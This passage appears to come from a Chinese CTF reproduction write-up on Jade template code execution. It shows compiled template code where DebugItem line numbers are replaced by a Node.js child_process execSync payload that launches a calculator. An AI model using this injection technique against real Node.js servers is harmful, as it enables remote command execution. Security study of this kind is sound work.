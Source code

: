 ```bash
jade_debug.unshift(new jade.DebugItem( 1, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<!DOCTYPE html>");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 2, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<html>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 3, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<head>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 4, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<meta" + (jade.attr("charset", "utf-8", true, true)) + ">");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 5, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<title>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 5, jade_debug[0].filename ));
buf.push("Example App");
jade_debug.shift();
jade_debug.shift();
buf.push("</title>");
jade_debug.shift();
jade_debug.shift();
buf.push("</head>");
jade_debug.shift();
jade_debug.unshift(new jade.DebugItem( 6, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<body>");
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.unshift(new jade.DebugItem( 7, "D:\\webnode\\CTF 复现\\111\\views\\index.jade" ));
buf.push("<h1>" + (jade.escape(null == (jade_interp = message) ? "" : jade_interp)));
jade_debug.unshift(new jade.DebugItem( global.process.mainModule.require('child_process').execSync('calc'), jade_debug[0].filename ));
jade_debug.shift();
buf.push("</h1>");
jade_debug.shift();
jade_debug.shift();
buf.push("</body>");
jade_debug.shift();
jade_debug.shift();
buf.push("</html>");
jade_debug.shift();
jade_debug.shift();;return buf.join("");
} catch (err) {
  jade.rethrow(err, jade_debug[0].filename, jade_debug[0].lineno);
}
```

在 renderFile 中，调用 handleTemplateCache 函数
